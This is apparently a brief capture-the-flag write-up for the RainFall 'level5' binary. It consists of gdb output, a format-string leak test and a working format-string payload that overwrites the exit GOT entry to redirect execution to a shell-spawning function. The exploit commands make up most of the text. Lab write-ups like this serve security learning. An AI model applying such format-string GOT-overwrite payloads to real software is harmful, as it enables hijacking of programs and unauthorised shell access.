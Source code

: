
```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 
call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n" '; cat) | ./level5
 









